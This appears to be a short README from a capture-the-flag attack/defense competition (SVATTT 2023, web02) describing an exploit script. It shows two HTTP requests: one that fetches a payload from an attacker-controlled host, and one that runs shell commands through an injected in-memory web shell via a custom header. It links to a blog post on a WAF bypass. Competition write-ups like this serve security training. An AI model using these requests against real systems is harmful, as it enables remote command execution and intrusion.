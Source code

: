 # SVATTT 2023 - Attack/Defense - web02
web02 exploit script

Request 1: `GET /http://PUBLIC_IP:8082/tiktikboom`

![log](images/log.png)

Request 2:
```
GET /http://PUBLIC_IP:8082/memshell
User-Agent: 123
cmd4f: ls
```

![ls](images/ls.png)


**Blog**: [https://devme4f.github.io/posts/2023/svattt-2023_new-waf-deser/](https://devme4f.github.io/posts/2023/svattt-2023_new-waf-deser/)
